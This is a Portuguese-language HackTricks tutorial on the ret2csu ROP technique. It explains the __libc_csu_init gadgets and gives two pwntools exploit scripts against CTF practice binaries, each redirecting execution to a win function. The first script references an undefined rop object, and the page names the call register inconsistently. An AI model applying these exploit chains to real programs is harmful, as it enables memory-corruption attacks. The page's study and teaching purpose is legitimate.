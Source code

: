 # Ret2csu

{{#include ../../banners/hacktricks-training.md}}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)Informações Básicas

**ret2csu** é uma técnica de hacking usada quando você está tentando assumir o controle de um programa, mas não consegue encontrar os **gadgets** que normalmente usa para manipular o comportamento do programa.

Quando um programa usa certas bibliotecas (como libc), ele possui algumas funções embutidas para gerenciar como diferentes partes do programa se comunicam. Entre essas funções, existem algumas joias ocultas que podem agir como nossos gadgets ausentes, especialmente uma chamada `__libc_csu_init`.

### Os Gadgets Mágicos em \_\_libc_csu_init

Em **`__libc_csu_init`**, há duas sequências de instruções (gadgets) a serem destacadas:

1. A primeira sequência nos permite configurar valores em vários registradores (rbx, rbp, r12, r13, r14, r15). Estes são como slots onde podemos armazenar números ou endereços que queremos usar mais tarde.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Este gadget nos permite controlar esses registradores ao retirar valores da pilha para eles.

2. A segunda sequência usa os valores que configuramos para fazer algumas coisas:
- **Mover valores específicos para outros registradores**, tornando-os prontos para usarmos como parâmetros em funções.
- **Realizar uma chamada para um local** determinado pela soma dos valores em r15 e rbx, e então multiplicando rbx por 8.
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
3. Talvez você não conheça nenhum endereço para escrever lá e você **precisa de uma instrução `ret`**. Note que o segundo gadget também **terminará em um `ret`**, mas você precisará atender a algumas **condições** para alcançá-lo:
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
As condições serão:

- `[r12 + rbx*8]` deve apontar para um endereço que armazena uma função chamável (se não houver ideia e sem pie, você pode apenas usar a função `_init`):
- Se \_init estiver em `0x400560`, use o GEF para procurar um ponteiro na memória para ele e faça com que `[r12 + rbx*8]` seja o endereço com o ponteiro para \_init:
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
- `rbp` e `rbx` devem ter o mesmo valor para evitar o salto
- Existem alguns pops omitidos que você precisa levar em conta

## RDI e RSI

Outra maneira de controlar **`rdi`** e **`rsi`** a partir do gadget ret2csu é acessando offsets específicos:

<figure><img src="../../images/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

Verifique esta página para mais informações:

{{#ref}}
brop-blind-return-oriented-programming.md
{{#endref}}

## Exemplo

### Usando a chamada

Imagine que você deseja fazer uma syscall ou chamar uma função como `write()`, mas precisa de valores específicos nos registradores `rdx` e `rsi` como parâmetros. Normalmente, você procuraria gadgets que definem esses registradores diretamente, mas não consegue encontrar nenhum.

É aqui que **ret2csu** entra em cena:

1. **Configurar os Registradores**: Use o primeiro gadget mágico para retirar valores da pilha e colocá-los em rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) e r15.
2. **Usar o Segundo Gadget**: Com esses registradores configurados, você usa o segundo gadget. Isso permite que você mova os valores escolhidos para `rdx` e `rsi` (de r14 e r13, respectivamente), preparando os parâmetros para uma chamada de função. Além disso, ao controlar `r15` e `rbx`, você pode fazer o programa chamar uma função localizada no endereço que você calcula e coloca em `[r15 + rbx*8]`.

Você tem um [**exemplo usando esta técnica e explicando aqui**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), e este é o exploit final que usou:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
> [!WARNING]
> Note que o exploit anterior não é destinado a fazer um **`RCE`**, ele é destinado apenas a chamar uma função chamada **`win`** (pegando o endereço de `win` da entrada padrão chamando gets na cadeia ROP e armazenando-o em r15) com um terceiro argumento com o valor `0xdeadbeefcafed00d`.

### Ignorando a chamada e alcançando o ret

O seguinte exploit foi extraído [**desta página**](https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html) onde o **ret2csu** é usado, mas em vez de usar a chamada, ele está **ignorando as comparações e alcançando o `ret`** após a chamada:
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### Por Que Não Usar libc Diretamente?

Geralmente, esses casos também são vulneráveis a [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/index.html), mas às vezes você precisa controlar mais parâmetros do que os que podem ser facilmente controlados com os gadgets que você encontra diretamente no libc. Por exemplo, a função `write()` requer três parâmetros, e **encontrar gadgets para definir todos esses diretamente pode não ser possível**.

{{#include ../../banners/hacktricks-training.md}}
